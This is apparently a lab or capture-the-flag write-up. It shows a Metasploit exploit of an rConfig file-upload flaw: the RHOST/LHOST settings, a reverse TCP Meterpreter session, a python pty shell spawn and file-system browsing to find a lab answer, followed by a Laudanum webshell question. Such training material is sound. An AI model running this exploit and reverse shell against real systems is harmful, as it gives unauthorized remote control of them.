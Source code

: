 ```
   0   rConfig <= 3.9.6


msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOST 10.129.201.101
RHOST => 10.129.201.101
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.15.92
LHOST => 10.10.15.92
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run

[*] Started reverse TCP handler on 10.10.15.92:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'sobeoeuhfw.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39927 bytes) to 10.129.201.101
[+] Deleted sobeoeuhfw.php
[*] Meterpreter session 2 opened (10.10.15.92:4444 -> 10.129.201.101:34912) at 2023-02-01 05:00:01 -0500

meterpreter > shell
Process 2523 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/sh")'
sh-4.2$ pwd
pwd
/home/rconfig/www/images/vendor
sh-4.2$ ls /
ls /
bin   dev            etc   lib    media  opt   root  sbin  sys  usr
boot  devicedetails  home  lib64  mnt    proc  run   srv   tmp  var
sh-4.2$ cd /devicedetails   
cd /devicedetails
sh-4.2$ ls
edgerouter-isp.yml  hostnameinfo.txt
```


**Answer:** `edgerouter-isp`

---
## Laudanum, One Webshell To Rule Them All
### Question 1:
![](./attachments/Pasted%20image%2020230201112819.png)
*Hint: This would be the absolute path to the directory where the web shell file is stored. Try looking in /usr/share/webshells*
